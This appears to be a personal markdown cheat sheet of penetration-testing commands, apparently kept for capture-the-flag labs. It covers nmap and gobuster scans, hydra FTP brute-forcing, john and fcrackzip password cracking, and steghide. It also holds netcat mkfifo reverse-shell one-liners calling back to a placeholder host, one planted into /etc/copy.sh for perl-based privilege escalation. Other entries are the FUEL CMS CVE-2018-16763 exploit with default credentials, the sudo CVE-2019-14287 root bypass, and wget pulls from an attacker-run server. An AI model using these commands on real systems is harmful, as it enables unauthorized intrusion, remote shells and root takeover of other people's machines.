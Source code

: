 ### nmap scan
`sudo nmap -sC -sV -v -oN nmap.md TARGET_IP` 


### Gobuster Scan
`sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/`

`sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt`

`sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt`


### dirbuster scan
`sudo dirb http://TARGET_IP/ -R` 

### Cat all find read
`cat *`


### import TARGET_IP
`$IP`


### To Check Sudo Permissions
`sudo -l`

`sudo su`

`su root`

### curl command to change alphabets [agent-user] in web
`sudo curl -A "CHANGE_LETTER" -L TARGET_IP`


### prev esc linux bash shell
`sudo bash`

### download file from SSH TARGET MACHINE
`scp USERNAME@TARGET_IP_ADDRS:FILENAME`


### perl write to copy.sh [reverse shell]
`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LOCAL_IP 5554 >/tmp/f' >/etc/copy.sh`

`sudo /usr/bin/perl /home/itguy/backup.pl`

### FTP Usage
`ftp TARGET_IP`

### SMBclient
`smbclient -L <IP_ADDRESS>`


### python shell - stable bash shell
`python3 -c  'import pty;pty.spawn("/bin/bash")'`


### FUEL CMS Exploit 1.4.1 CVE-2018-16763
`run command with ""`
example:
`CMD: "ls -la"`
default cred: admin: admin


### FUEL CMS Database login info
`fuel/application/config`

`cat database.php`


### netcat revershell
`"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc TARGET_IP 1234 >/tmp/f"`


### hydra command to brute-force FTP with username
`sudo hydra -l USERNAME -P /usr/share/wordlists/rockyou.txt TARGET_IP ftp`


### run python http server
`sudo python -m SimpleHTTPServer 80`


### wget download file
`sudo wget http://LOCAL_IP/FILE_NAME -0  PATH/PATH/`

`sudo wget http://YOUR_IP_ADDRS:8080/FILENAME`


### john cracking the password
`sudo john HASH_FILENAME --wordlist=/usr/share/wordlists/rockyou.txt`

### john ZIP file cracking
`sudo zip2john FILENAME.zip > OUTFILENAME`

### fcrackzip command
`fcrackzip <zip-file> -D -p /usr/share/wordlists/rockyou.txt`

### 7zip
`7z e ZIP_FILENAME`

### steghide command
`steghide info FILENAME [info about filename]`

`steghide extract -sf FILENAME [extract]`

### CyberChef to crack hash [base64]
https://gchq.github.io/CyberChef/

## sudo 1.8.21 exploit CVE-2019-14287
`sudo -u#-1 /bin/bash [spawn as root]`
